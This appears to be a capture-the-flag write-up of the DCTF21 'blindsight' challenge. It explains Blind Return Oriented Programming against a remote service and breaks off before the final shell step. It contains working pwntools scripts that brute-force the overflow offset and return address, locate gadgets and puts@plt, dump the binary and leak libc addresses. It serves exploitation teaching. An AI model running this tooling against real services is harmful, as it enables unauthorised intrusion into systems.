# dctf21.cyberedu.ro - blindsight

### Reference source:

- https://www.ctfiot.com/24867.html (Chinese)

- https://www.youtube.com/watch?v=vzqjCYzpmBk (English)

---

Origin challenge link: https://dctf21.cyberedu.ro/

Archived challenge link: https://app.cyberedu.ro/

You can also download challenge in my repo (still need address server so refer to archived link above): [blindsight.zip](blindsight.zip)

There will be 1 file in zip:

- libc-2.23.so

Download the zip and let's start!

# 1. Find bug

There is no ELF file but we are provided a libc, let's use `file` command to get basic infomation:

```
libc-2.23.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=30773be8cf5bfed9d910c8473dd44eaab2e705ab, for GNU/Linux 2.6.32, with debug_info, not stripped
```

We know that libc is 64-bit, so that the program is 64-bit too. That's sound great for us.

Because we can just interact online with server, so anything we can do is to try every technique to see what can we get.

First, let's try if there is buffer overflow or not:



We can see clearly that when we input a ton of `A`, the program didn't print out `No password for you!` --> **Buffer Overflow**

Next, we will try if there is format string bug or not:



Oh we are unfortunate! Moreover, our input wasn't executed after input so that's all we can get. 

Anyway, just **buffer overflow** is enough. Let's move on brainstorming part.

# 2. Brainstorming

As the name of challenge hinted **blind**sight, after googling `blind binary exploit`, we know that we have a technique called [Blind Return Oriented Programming (BROP)](https://en.wikipedia.org/wiki/Blind_return_oriented_programming) which we will need for this challenge. 

First thing we need to do is to find stop_gadget address, which will hang the program when executed, but the connection will not be disconnect. This gadget will make sure that our payload work smoothly and will keep connection after that. In other word, stop gadget also will print out something after executing our payload.

Next, we will get the begining address of main (from here, we can find useful gadget and @plt faster). Just simply bruteforce to see at what address, the program works as when we have just connected to server.

Then, finding useful gadget (pop rbx; rbp; r12; r13; r14; r15; ret in csu) and finding puts@plt will be easier.

Having puts@plt, we will need to dump the program to get to know more clearly about how it works. And from that, we can plan our shellcode to spawn shell. Because we cannot know anything to plan first so in the exploit part, I will explain how we exploit the challenge.

- Summary:

  1. Finding stop_gadget

  2. Finding main address

  3. Finding useful_gadget

  4. Finding puts@plt

  5. Dumping stack

  6. Get shell

# 3. Exploit

Table of content

1. [Finding stop_gadget](#1-finding-stop_gadget-optional-for-this-challenge-only-table-of-content)

2. [Finding main address](#2-finding-main-address-table-of-content)

3. [Finding useful_gadget](#3-finding-useful_gadget-table-of-content)

4. [Finding puts@plt](#4-finding-putsplt-table-of-content)

5. [Dumping stack](#5-dumping-stack-table-of-content)

6. [Get shell](#6-get-shell-table-of-content)

---

For this challenge, we will write python script for convinient exploit

### 1. Finding stop_gadget (optional for this challenge only) ([Table of Content](#3-exploit))

First, we need to know at what offset the program will crash (won't print out the string `No password for you!`) by passing large string, then half upper/lower of it, then half upper/lower of it and keep going until we find the offset, or we can use the following script to check that for us:

<details>
<summary>Sub Script</summary>
<p>

```
from pwn import *

context.log_level='debug'

def GetBuffSize():
    # We will test upto 500 bytes of character
    for i in range(500):
        p = connect('34.159.129.6', 30550)
        p.recvline()
        p.send(b'A'*i)

        try:
            # Try to receive string 'No password for you!'
            p.recvline()
            p.close()
        except EOFError:
            # The string 'No password for you!' is not printed --> Buffer Overflow
            log.success('Found offset:' + str(i-1))
            p.close()
            break
GetBuffSize()
```

</p>
</details>

And we know the offset:



So we know that offset will be 88. Before we continue to find the stop_gadget, with the youtube link above, they said that if there is stack canary, it will be remain for every connection. So let's try to bruteforce that to know if we can get stack canary or not.

To do that, we will bruteforce byte to byte, which is faster than bruteforce from `0` to `0xffffffffffffffff`. The script will be as following:

<details>
<summary>Sub Script</summary>
<p>

```
from pwn import *

context.log_level='debug'

buff_size = 88

def GetStackCanary():
    payload = b'A'*buffer_offset
    for byte in range(8):
        for i in range(0x100):
            p = connect('34.159.129.6', 30550)
            p.recvline()
            
            # Don't send Enter here, it will read to buffer
            p.send(payload + p8(i))
            
            # Enter to send payload to server, doesn't read to buffer but will sent to next input so be aware
            p.send(b'\n')

            try:
                # Try to receive string 'No password for you!'
                p.recvline()
            
                # If recv successfully, add that byte to payload
                payload += p8(i)
                p.close()
            
                # Break to move on next byte
                break
            except:
                log.failure('Not this byte: ' + str(p8(i)))
                p.close()
    log.success('Found stack canary: ' + hex(u64(payload[88:])))
GetStackCanary()
```

</p>
</details>

And we leak the stack canary:



Oh wait, that's not stack canary! Stack canary won't have so much null bytes like that and it will full of 8 bytes. It is the return rip and we can use this to bruteforce things. Also with that address, we now know that program base address will start from `0x400000`. 

From here, we can find stop gadget with start address at 0x400000 and stop address at 0x401000 (enough for a ELF file). In face, these stop gadget are many, so we just need to find one of them. I will use multiple thread for better performance:

<details>
<summary>Sub Script</summary>
<p>

```
from threading import Thread
from pwn import *

context.log_level='debug'

isRunning = True
def GetStopGadget(start_addr, stop_addr):
    global isRunning
    while (start_addr<stop_addr) and isRunning:
        start_addr += 1
        payload = b'A'*buff_size + p64(start_addr)

        p = connect('34.159.129.6', 30550)
        p.recvline()
        # Don't send Enter here, it will read to buffer
        p.send(payload)
        # Enter to send payload to server, doesn't read to buffer but will sent to next input so be aware
        p.send(b'\n')
        try:
            # Check if it can receive or not
            p.readline()

            # If recv successfully, shutdown all thread
            isRunning = False
            log.success('Found stop gadget: ' + hex(start_addr))
            with open('stop_gadget', 'wt') as f:
                f.write(hex(start_addr))
            p.close()
        except EOFError:
            log.failure('EOFError')
            p.close()

for i in range(0xf+1):
    Thread(target=GetStopGadget, args=(i*0x100 + 0x400000, (i+1)*0x100 + 0x400000, )).start()
```

</p>
</details>

Running the script and we get a stop gadget:



That's pretty good! Our stop gadget is at `0x400705`. Let's move on finding main address!

### 2. Finding main address ([Table of Content](#3-exploit))

For each connection, it first print out `Are you blind my friend?`. So we will bruteforce until we find out at what address this string will be printed. We will also use multiple thread for better performance:

<details>
<summary>Sub Script</summary>
<p>

```
from threading import Thread
from pwn import *

context.log_level = 'debug'

buff_size = 88
stop_gadget = 0x400705

def GetMain(start_addr, stop_addr):
    while (start_addr<stop_addr):
        start_addr += 1
        payload = b'A'*buff_size + p64(start_addr)

        p = connect('34.159.129.6', 30550)
        p.recvline()
        # Don't send Enter here, it will read to buffer
        p.send(payload)
        # Enter to send payload to server, doesn't read to buffer but will sent to next input so be aware
        p.send(b'\n')
        try:
            if b'blind my friend' in p.readline():
                log.success('Found main address: ' + hex(start_addr))
                with open('main', 'at') as f:
                    f.write(hex(start_addr) + '\n')
            else:
                log.failure('Not this one: ' + hex(start_addr))
            p.close()

        except EOFError:
            log.failure('EOFError')
            p.close()

for i in range(0xf+1):
    Thread(target=GetMain, args=(i*0x100 + 0x400000, (i+1)*0x100 + 0x400000, )).start()
input("Press ENTER when nothing run...")

with open('main', 'rt') as f:
    mains = f.read().split('\n')

min = mains[0]
for main in mains:
    if main and min>main:
        min = main
log.success('Main address: ' + hex(int(min, 16)))
with open('main', 'wt') as f:
    f.write(min + '\n')
```

</p>
</details>

Because we use multiple thread so handling output will be more complex, but it's more effectively than bruteforce 1 thread from 0x400000 to 0x401000. Running it and we get the main address:



The main address is at `0x4005c0`. That's wonderful! Let's move on guys.

### 3. Finding useful_gadget ([Table of Content](#3-exploit))

Finding useful gadget means finding 6 pop in csu (pop rbx; rbp; r12; r13; r14; r15; ret in csu). Csu is the essential part of program so it's usually in the program after main. We now have main address, to find useful gadget we will start from `0x405000`. 

One more thing to know, the 6 pop doesn't have `pop rdi ; ret` which is important for us, so how can we get that from 6 pop? We will take an example of another file, using `objdump`, we get that 6-pop here:

```
  4007ea:    5b                       pop    rbx
  4007eb:    5d                       pop    rbp
  4007ec:    41 5c                    pop    r12
  4007ee:    41 5d                    pop    r13
  4007f0:    41 5e                    pop    r14
  4007f2:    41 5f                    pop    r15
  4007f4:    c3                       ret
```

And we use [this website](https://defuse.ca/online-x86-assembler.htm) to compile assembly code online:



We can see that at the last pop (`pop r15`), the opcode is similar to `pop rdi`:


So if our useful_gadget is `0x4007ea`, we will have `pop rdi` at address `0x4007ea + 9`. Now just create script to check if it's 6-pop then check if it's 1-pop next and we can filter out so much (multiple thread again). Usually, csu is at the end of program so we just need to take the bigger address and that will be pop 6 in csu:

<details>
<summary>Sub Script</summary>
<p>

```
from threading import Thread
from pwn import *

context.log_level = 'debug'

buff_size = 88
stop_gadget = 0x400705
main = 0x4005c0

def GetUsefulGadget(start_addr, stop_addr):
    while (start_addr<stop_addr):
        start_addr += 1
        payload1 = b'A'*buff_size + p64(start_addr) + p64(6)*6 + p64(main)

        # Check pop 6
        p = connect('34.159.129.6', 30550)
        p.recvline()

        # Don't send Enter here, it will read to buffer
        p.send(payload1)

        # Enter to send payload to server, doesn't read to buffer  but will sent to next input so be aware
        p.send(b'\n')
        try:
            # If pop 6 succeeded and jump back to main
            if b'blind my friend' not in p.readline():
                log.failure('Not this one: ' + hex(start_addr))
            p.close()
        except EOFError:
            log.failure('EOFError')
            p.close()
            continue

        # Check pop 1
        p = connect('34.159.129.6', 30550)
        payload2 = b'A'*buff_size + p64(start_addr+9) + p64(1)*1 + p64(main)
        p.send(payload2)
        p.send(b'\n')
        try:
            # if pop 1 succeeded and jump back to main
            if b'blind my friend' in p.readline():
                log.success('Found main address: ' + hex(start_addr))
                with open('useful_gadget', 'at') as f:
                    f.write(hex(start_addr) + '\n')
            else:
                log.failure('Not this one: ' + hex(start_addr))
            p.close()
        except EOFError:
            log.failure('EOFError')
            p.close()    

for i in range(5, 0xf+1):
    Thread(target=GetUsefulGadget, args=(i*0x100 + 0x400000, (i+1)*0x100 + 0x400000, )).start()
input("Press ENTER when nothing run...")

with open('useful_gadget', 'rt') as f:
    useful_gadgets = f.read().split('\n')

max_addr = useful_gadgets[0]
for useful_gadget in useful_gadgets:
    if useful_gadget and max_addr<useful_gadget:
        max_addr = useful_gadget
log.success('Useful gadget: ' + hex(int(max_addr, 16)))
with open('useful_gadget', 'wt') as f:
    f.write(max_addr + '\n')
```

</p>
</details>

Running script will give us pop 6 address: 



So we get the useful_gadget  `0x4007ba`, which add 9 will equal to `pop rdi; ret`. Now let's finding puts@plt in the next step!

### 4. Finding puts@plt ([Table of Content](#3-exploit))

When we get the gadget `pop rdi, ret`, now we need to get the puts@plt to dump stack in the following step. As we know that main address is `0x4005c0`, the @plt will be before the address of main and the smallest address can be found. 

So we just need to check from `0x400000` to `0x400600` to find puts@plt and the string we will use is the base address which contain ELF header and string `b'\x7fELF'`:

<details>
<summary>Sub Script</summary>
<p>

```
from threading import Thread
from pwn import *

context.log_level = 'debug'

buff_size = 88
stop_gadget = 0x400705
main = 0x4005c0
useful_gadget = 0x4007ba

def GetPutsPLT(start_addr, stop_addr):
    global isRunning
    while (start_addr<stop_addr):
        start_addr += 1
        payload = b'A'*buff_size + p64(useful_gadget+9) + p64(0x400000) + p64(start_addr)

        # Check pop 6
        p = connect('34.159.129.6', 30550)
        p.recvline()

        # Don't send Enter here, it will read to buffer
        p.send(payload)

        # Enter to send payload to server, doesn't read to buffer but will sent to next input so be aware
        p.send(b'\n')
        try:
            if b'\x7fELF' in p.readline():
                log.success('Found puts@plt address: ' + hex(start_addr))
                with open('puts', 'at') as f:
                    f.write(hex(start_addr) + '\n')
            else:
                log.failure('Not this one: ' + hex(start_addr))
            p.close()
        except EOFError:
            log.failure('EOFError')
            p.close()    

for i in range(0, 0x6+1):
    Thread(target=GetPutsPLT, args=(i*0x100 + 0x400000, (i+1)*0x100 + 0x400000, )).start()
input("Press ENTER when nothing run...")

with open('puts', 'rt') as f:
    puts = f.read().split('\n')

min_addr = puts[0]
for put in puts:
    if put and min_addr>put:
        min_addr = put
log.success('puts@plt: ' + hex(int(min_addr, 16)))
with open('useful_gadget', 'wt') as f:
    f.write(min_addr + '\n')
```

</p>
</details>

Running the script and we will get puts@plt address at `0x400550`:



That's is almost everything we need. Just 1 more things we can do is to dump the program opcode from stack, then view assembly code to get to know how the program work and we can plan the exploitation easier. Let's move on next step!

### 5. Dumping stack ([Table of Content](#3-exploit))

We have puts@plt and we know the base, everything now is just simple as it is. Remember that if we recv just 1 byte `\n`, that is null byte, not `\n`, but if we recv more than 2 byte, just make sure to remove `\n` at the end or it may cause some troubles:

<details>
<summary>Sub Script</summary>
<p>

```
from threading import Thread
from pwn import *

context.log_level = 'debug'

buff_size = 88
stop_gadget = 0x400705
main = 0x4005c0
useful_gadget = 0x4007ba
puts_plt = 0x400550

def DUMPCORE(thread, start_addr, stop_addr):
    while (start_addr<stop_addr):
        payload = b'A'*buff_size + p64(useful_gadget+9) + p64(start_addr) + p64(puts_plt)

        p = connect('34.159.129.6', 30550)
        p.recvline()

        # Don't send Enter here, it will read to buffer
        p.send(payload)

        # Enter to send payload to server, doesn't read to buffer but will sent to next input so be aware
        p.send(b'\n')
        try:
            data = p.recv()
            if len(data)==1:
                if data==b'\n':
                    output = b'\x00'
                else:
                    output = data
            elif len(data)>1:
                output = data[:-1]
            start_addr += len(output)
            log.success('Leaking: ' + str(output))
            with open('core_dump_' + str(thread), 'ab') as f:
                f.write(output)
            p.close()
        except EOFError:
            log.failure('EOFError')
            p.close()

for i in range(0, 0xf+1):
    Thread(target=DUMPCORE, args=(i, i*0x100 + 0x400000, (i+1)*0x100 + 0x400000, )).start()
input("Press ENTER when nothing run...")

for i in range(0, 0xf+1):
    with open('core_dump_' + str(i), 'rb') as f:
        core = f.read()
    with open('core', 'ab') as f:
        f.write(core[:0x100])
```

</p>
</details>

Running that script and we get the ELF file:



How nice! Let's move on final step: Get shell!

### 6. Get shell ([Table of Content](#3-exploit))

Now we have the ELF file, just disassemble the file using ida to see it's flow. At first, I tried leaking puts@got and other GOT but failed. It seems like it take the opcode of program and copy it to GOT so when I print out GOTs, I just got the same opcode again and again.

So now we will move on another way. But before we continue, we need to check again about all the leak we have got via the core we have just dump. This is the updated leak addresses:

```
buff_size = 88                 # Correct
stop_gadget = 0x400705         # Correct (don't need to check)
main = 0x4005c0                # Correct
useful_gadget = 0x4007ba       # Correct
puts_plt = 0x400560            # Changed from 0x400550 to 0x400560
```

Now let's keep going. Let's examine from the string `Are you blind my friend?`. We notice that there is a function for input our string and then it do something with the string `aslvkm;asd;alsfm;aoeim;wnv;lasdnvdljasd`:



We can see that this function just sub 0x80 but input upto 0x400 so **Buffer Overflow** is what we are exploiting. The function `sub_400580` is `read@plt` because all parameters are just in the correct position. The function `sub_4005A0` may be `strcmp@plt` because rdi is our input string but rsi is the string `aslvkm;asd;alsfm;aoeim;wnv;lasdnvdljasd`. 

After that comparision, it doesn't change register and returns (the @plt may change register such as mainly rax, rdx...). We just try to print out our string which maybe still remain on rdi. We know that puts just end when it meet newline character `\n`, not null byte.

So with our payload is on stack and rdi, we can try to print out our string to check if we can get anything interesting and the end of our input (check address after overwrited rip) with payload like this:

```
payload = b'A'*88 + p64(puts_plt)
```



Oh what's that? Where is our string? We know that rdi remains our input string but why we can see just `AAAAAAAA` after 8-byte first? Maybe when our string goes into `strcmp@plt`, it push some value to stack and leave it there. 

As you can see that somethings interesting are in our input like some address in libc (`b'\x9aS/\xab\x1c\x7f\x00\x00', b' \x16d\xab\x1c\x7f\x00\x00'`) and some address of stack (`b'\xf0\xfd\xae\xa5\xfe\x7f\x00\x00', b'0\xff\xae\xa5\xfe\x7f\x00\x00'`). Why we know that? Because libc address format usually is `0x7fxxxxxxxkkk` and those `kkk` at the end doesn't change after every run, while stack format usually is `0x7ffxxxxxxxxx`.

> At first, I intended to dump stack with leaked stack address to get the address of stack where it store those `AAAAAAAA` character. From that we just replace `AAAAAAAA` to `/bin/sh\x00`, which fit 8 bytes, and overwrite the rip with system via leak libc address. But when I changed form `AAAAAAAA` to `/bin/sh\x00`, the leak went wrong so we cannot exploit this way. We will exploit as following.

Look at the libc leak, the first one end with `b'\x9a'` which doesn't seem to be any function so we will use the second one which end with `b'\x20\x16'`. Now we have leaked address and provided libc, we just bruteforce with different offset we can find in provided libc to calculate libc base, then we will use one gadget to get our shell.

One gadget:



To make sure the rsp is null may be quite hard or unsure so we will use the first one, `rax == NULL`. And with provided libc, it's easy to make rax become null with this gagdet:


